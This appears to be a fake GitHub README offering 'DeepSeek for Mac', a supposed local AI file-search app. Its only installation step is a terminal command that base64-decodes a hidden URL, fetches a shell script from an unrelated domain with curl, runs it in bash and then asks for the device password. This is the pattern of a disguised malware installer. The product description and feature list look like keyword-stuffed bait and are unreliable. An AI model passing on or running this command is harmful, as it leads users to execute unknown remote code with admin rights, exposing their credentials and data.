 # DeepSeek for Mac

![DeepSeek Screenshot](https://www.macobserver.com/wp-content/uploads/2025/02/How-To-Install-DeepSeek-on-Mac-for-Free-2025.jpg)

---

## 🚀 Installation

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is DeepSeek for Mac?

**DeepSeek for Mac** is an intelligent, high-performance local search engine and code intelligence platform tailored for macOS users. It enables users to scan, analyze, and retrieve content from massive folders, documents, and code repositories with lightning speed. Built with advanced indexing and semantic search capabilities, DeepSeek is ideal for developers, analysts, writers, and anyone managing large volumes of structured or unstructured data on a Mac.

The app leverages local machine learning and AI to understand the context of your queries, providing smarter, more relevant results. Whether you're exploring legacy code, searching through Markdown notes, or quickly jumping to definitions in a programming project, DeepSeek accelerates your workflow with its minimalistic interface and snappy performance.

In its latest version, DeepSeek also offers Chat-style AI search, syntax-aware indexing, VS Code and JetBrains plugin compatibility, and rich file previews — all optimized for macOS, including Apple Silicon.

---

## ✅ Features

- AI-enhanced local search across files and code
- Instant indexing of large directories
- Syntax-aware and semantic query support
- Works with PDF, Markdown, code files, and more
- Native Apple Silicon support (M1/M2/M3)
- Offline and private — no cloud syncing
- Deep file preview with inline results
- CLI tool and IDE integrations (optional)

---

![DeepSeek Interface](https://superblog.supercdn.cloud/site_cuid_cl495vqej08071jpawt8inf39/images/image-57-1738593514071-compressed.png)

---

## 💻 Compatibility

- **macOS 12 Monterey** or later
- Fully optimized for **M1, M2, M3** chips
- Intel Macs supported
- Works offline — no internet required

---

## 🔑 Keywords

`deepseek mac`, `deepseek for mac`, `deepseek download mac`, `deepseek ai search mac`, `deepseek codebase search`, `mac code search`, `offline file search mac`, `ai file explorer mac`, `semantic search mac`, `developer search tool mac`, `macos code indexing`, `deepseek m1`, `deepseek m2`, `deepseek search engine`, `local file search mac`, `deepseek tool`, `fast file search mac`, `deepseek desktop client`, `smart file finder mac`, `deepseek app download`, `deepseek for developers`

---
